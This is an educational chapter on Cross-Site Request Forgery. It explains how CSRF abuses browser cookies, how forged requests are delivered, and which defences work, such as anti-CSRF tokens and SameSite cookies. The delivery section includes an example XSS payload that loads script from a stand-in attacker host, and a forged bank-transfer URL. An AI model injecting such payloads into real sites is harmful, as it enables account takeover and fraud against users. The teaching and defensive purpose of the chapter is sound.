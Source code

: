 # 10 - Cross-Site Request Forgery (CSRF)


## 1. What is Cross-Site Request Forgery (CSRF)?

**CSRF** (also pronounced "sea-surf") is an attack that forces an end user to execute unwanted actions on a web application in which they are currently logged in.

*   **Core Idea:** The attack exploits the trust that a web application has in a user's browser. When a request is sent to an application, the browser automatically includes any relevant authentication cookies for that domain. A CSRF attack tricks the browser into sending a forged, state-changing request (like changing a password or transferring money) without the user's knowledge or consent. The application, seeing the valid session cookie, processes the request as if it were legitimate.

*   **Analogy:** Imagine you are logged into your online banking website. An attacker sends you an email with a hidden link or an image. When your browser loads the email, it also loads the hidden image, which has a source like `http://yourbank.com/transfer?to=attacker&amount=1000`. Because you are logged into your bank, your browser helpfully attaches your session cookie to this request. The bank's server sees a valid request from a logged-in user and processes the transfer. You have just been a victim of a CSRF attack.

---

## 2. How CSRF Attacks are Executed

The attacker's goal is to get a victim's browser to send a forged HTTP request to the vulnerable application.

*   **The Victim:** Must be authenticated to the target web application.
*   **The Malicious Request:** The attacker crafts a request that performs a sensitive action (e.g., changing an email address, deleting a user, posting a comment).
*   **The Delivery:** The attacker embeds this forged request into a website or email they control. This can be done via:
    *   An `<img>` tag with a malicious `src` attribute.
    *   A hyperlink (`<a>` tag).
    *   A form that is auto-submitted with JavaScript.
*   **Combining with XSS:** A **Stored XSS** vulnerability provides a perfect delivery mechanism for a CSRF attack. An attacker can inject a JavaScript payload that performs the forged request. This payload will then execute in the browser of every authenticated user who visits the vulnerable page.

### Example XSS Payload for CSRF
An attacker could use a Stored XSS vulnerability to inject a script that remotely loads and executes their malicious JavaScript.
```html
"><script src="https://attacker.com/exploit.js"></script>
```
The `exploit.js` file would contain the JavaScript code necessary to craft and send the forged request to change the victim's password.

---

## 3. Prevention

Preventing CSRF involves breaking the application's blind trust in the requests sent by a user's browser. The server needs a way to verify that a state-changing request was intentionally submitted by the user from the application's own interface.

### Primary Defenses
*   **Anti-CSRF Tokens (The Best Defense):**
    *   **How it Works:** For every user session, the server generates a unique, random, and unpredictable token. This token is embedded in a hidden field in all sensitive forms (like a "change password" form). When the user submits the form, the token is sent back to the server. The server validates that the token received matches the one it issued for that session.
    *   **Effectiveness:** An attacker cannot guess this token, so any forged request they create will be missing the valid token and will be rejected by the server. This is the most robust defense.

### Defense-in-Depth Measures
*   **SameSite Cookie Attribute:**
    *   A browser-level defense. Setting a cookie's `SameSite` attribute to `Strict` or `Lax` instructs the browser **not** to send the cookie with cross-site requests, effectively neutralizing most CSRF attacks. `Strict` is the most secure.
*   **Re-authentication:** For highly sensitive actions (like changing a password or email address), require the user to re-enter their current password to confirm their intent.
*   **Input Validation & Sanitization:** While the primary defense for XSS and HTML Injection, proper validation (e.g., checking the `Referer` header, though it can be spoofed) can add another layer of protection.
